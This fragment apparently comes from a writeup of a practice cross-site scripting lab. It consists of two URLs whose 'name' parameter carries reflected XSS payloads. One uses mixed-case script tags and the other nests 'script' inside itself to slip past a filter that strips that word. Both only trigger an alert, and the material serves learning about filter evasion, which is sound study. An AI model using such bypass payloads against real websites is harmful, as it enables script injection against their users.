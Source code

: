 [http://www.zixem.altervista.org/XSS/2.php?name=<scrIpt>alert(1337)</scrIpt>](https://zixem.altervista.org/XSS/2.php?name=%3CscrIpt%3E%20alert(1)%3C/scrIpt%3E)


[http://www.zixem.altervista.org/XSS/2.php?name=<scripscriptt>alert(1337)</scripscriptt>](https://zixem.altervista.org/XSS/2.php?name=%3Cscripscriptt%3Ealert(1337)%3C/scripscriptt%3E)


